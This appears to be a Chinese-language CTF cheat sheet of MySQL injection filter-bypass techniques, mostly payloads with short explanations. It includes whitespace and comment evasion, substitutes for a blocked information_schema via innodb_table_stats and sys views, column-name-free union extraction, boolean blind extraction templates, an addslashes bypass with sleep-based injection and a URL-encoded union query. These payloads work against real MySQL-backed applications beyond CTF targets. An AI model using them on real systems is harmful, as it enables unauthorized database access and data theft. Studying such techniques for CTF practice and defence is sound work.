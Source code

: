## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用`\`包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```

^
## **where后= like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
```